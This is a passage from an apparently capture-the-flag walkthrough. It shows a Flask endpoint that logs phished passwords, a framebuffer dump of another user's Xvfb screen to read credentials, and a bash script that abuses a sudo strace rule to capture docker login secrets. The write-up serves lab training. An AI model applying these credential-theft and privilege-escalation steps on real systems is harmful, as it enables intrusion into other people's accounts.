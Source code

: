 ```python
    password = request.form.get("password") or request.json.get("password")
    app.logger.info(
        f"Received login: user_name={user_name}, password={password}"
    )
    return redirect(url_for("serve_index"))
if __name__ == "__main__":
    app.run(ssl_context=("server.crt", "server.key"), debug=True)
```
After sending the email, you can view the credentials of **tom_summers** in the flask app logs. Use these credentials to log in via ssh and claim your flag.

## Pivot
While enumerating processes, you can observe three running under the user **tom_summers_admin**:
```
/bin/sh -c /provision/cron/tom_summers_admin/text-editor.sh

/usr/bin/Xvfb :1 -fbdir /xorg/xvfb -screen 0 512x256x24 -nolisten local
```
Inspecting the `/xorg/xvfb` directory reveals the file **Xvfb_screen0**. This file contains a pixel-by-pixel representation of what **tom_summers_admin** is viewing. It's world-readable, meaning any user can dump and inspect its contents.

You can use the **ImageMagick** tool to extract and visualize the screen contents. To do this, download the AppImage version, upload it to the target, extract it, and dump the screen with the following commands:
```
./magick --appimage-extract

head -c $((512*256*4)) /xorg/xvfb/Xvfb_screen0 > screen.raw

./squashfs-root/usr/bin/magick -depth 8 -size 512x256 rgba:screen.raw output.png
```
> `512x256` is the screen resolution, and `4` refers to the RGBA channels.

By inspecting the resulting image (`output.png`), you can retrieve the credentials for **tom_summers_admin**.

This user is allowed to execute certain `sudo` commands as **rebecca_smith**:
```
docker login
strace -s 128 -p [0-9]*
```
-   The first command, `docker login`, attempts to authenticate to dockerhub using any cached credentials.
    
-   The second, `strace`, allows attaching to a running process to trace system calls.
> Note: The `[0-9]*` pattern here is a wildcard, **not** a regex. It means that the command accepts any extra argument that begins with a number—so options like `-f` (follow forks) are also allowed.

Because the credential read occurs very early during the execution of `docker login`, running `strace` manually after the command has started would miss it. To catch the full interaction, a script can be used to launch and trace the login process from the beginning.
```
#!/bin/bash
sudo -u rebecca_smith /usr/bin/docker login &
pid=""
while [ -z "$pid" ]; do
  pid=$(pgrep -u rebecca_smith -f "/usr/bin/docker login")
done
sudo -u rebecca_smith /usr/bin/strace -s 128 -p $pid -f -e trace=read
```
After obtaining the credentials for **rebecca_smith**, you can launch `pspy` to monitor scheduled tasks and analyze system activity. In the logs, you’ll notice a cron job running periodically to reset the credentials for the user **ash_winter**.
